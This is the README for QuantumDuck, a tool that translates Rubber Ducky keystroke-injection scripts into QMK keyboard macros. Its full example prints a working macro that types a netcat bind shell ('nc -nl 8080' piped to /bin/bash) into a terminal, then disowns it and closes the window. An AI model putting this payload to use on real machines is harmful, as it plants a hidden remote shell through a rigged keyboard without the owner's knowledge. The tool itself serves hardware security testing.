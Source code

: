 ![](static/qd.png)
Turn Ducky Scripts into QMK Read SEND_STRING() macros

Requires Python3.6+ or greater

## Install

Just run 

```git clone https://github.com/dagonis/QuantumDuck.git```

## Usage
```
python3 quantumduck --help      
usage: quantumduck [-h] [--full] [--name NAME] duckyscript

positional arguments:
  duckyscript           The location of the ducky script you want to translate

optional arguments:
  -h, --help            show this help message and exit
  --full                Toggle this to get extra QMK configuration.
  --name NAME, -n NAME  The name of the Macro key.
```

## Example
### Simple Example
```
$ python3 quantumduck nc_example.txt 
SEND_STRING(SS_LGUI(" "));
wait_ms(500);
SEND_STRING("terminal");
[output removed]
SEND_STRING(SS_TAP(X_ENTER));
SEND_STRING(SS_LGUI("q"));
```

### Full Example
```
$ python3 quantumduck nc_example.txt --full --name NC
# This part will go into the process_record_user() function

        case NC:
          if (record->event.pressed) {
            SEND_STRING(SS_LGUI(" "));
            wait_ms(500);
            SEND_STRING("terminal");
            SEND_STRING(SS_TAP(X_ENTER));
            wait_ms(1000);
            SEND_STRING("mkfifo /tmp/bp");
            SEND_STRING(SS_TAP(X_ENTER));
            SEND_STRING("nc -nl 8080 </tmp/bp | /bin/bash > /tmp/bp &");
            SEND_STRING(SS_TAP(X_ENTER));
            SEND_STRING("disown");
            SEND_STRING(SS_TAP(X_ENTER));
            SEND_STRING("exit");
            SEND_STRING(SS_TAP(X_ENTER));
            SEND_STRING(SS_LGUI("q"));
        }
        return false;

# This part will go towards the top of your config in your custom_keycodes section

        enum custom_keycodes {
            NC
        };

Don't forget to add the key into your keymaps! Happy QuantumQuacking!!!
```